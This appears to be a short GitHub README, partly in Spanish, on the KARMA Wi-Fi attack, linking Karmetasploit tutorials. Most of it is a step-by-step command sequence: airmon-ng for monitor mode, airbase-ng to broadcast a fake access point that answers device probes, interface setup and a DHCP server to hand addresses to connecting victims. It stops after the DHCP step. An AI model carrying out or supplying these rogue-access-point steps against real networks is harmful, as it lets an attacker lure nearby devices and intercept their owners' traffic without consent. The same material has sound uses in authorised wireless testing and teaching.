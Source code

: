 # Karma Atack

KARMA is an attack that exploits a behaviour of some Wi-Fi devices, combined with the lack of access point authentication in numerous WiFi protocols.


## Referencias

[https://www.offensive-security.com/metasploit-unleashed/karmetasploit-configuration/](https://www.offensive-security.com/metasploit-unleashed/karmetasploit-configuration/)
[https://www.offensive-security.com/metasploit-unleashed/karmetasploit-action/](https://www.offensive-security.com/metasploit-unleashed/karmetasploit-action/)
[https://www.offensive-security.com/metasploit-unleashed/karmetasploit-attack-analysis/](https://www.offensive-security.com/metasploit-unleashed/karmetasploit-attack-analysis/)
[http://www.hackplayers.com/2013/07/introduccion-karmetasploit.html](http://www.hackplayers.com/2013/07/introduccion-karmetasploit.html)

## Config

See available wireless network interfaces to use

```airmon-ng```

Config wireless interface in mod monitor

```airmon-ng start wlan0```

### Create a new screen for the Facke AP

Create the new screen

```screen -S fakeAP```

Config the params of the Facke AP

```airbase-ng -P -C 30 -c 6 -e "FakeAPname" mon0 [wlan0mon]```

Deatach from the new screen

```Cntrl a d```

Config the ip of the new interface

```ifconfig at0 up 10.0.0.1 netmask 255.255.255.0```

Create the Database

```touch /var/lib/dhcp/dhcpd.leases```

Start DHCP Server

```dhcpd -cf /etc/dhcp/dhcpd.conf at0```

Check all is okey

```ps aux | grep [d]hcpd```
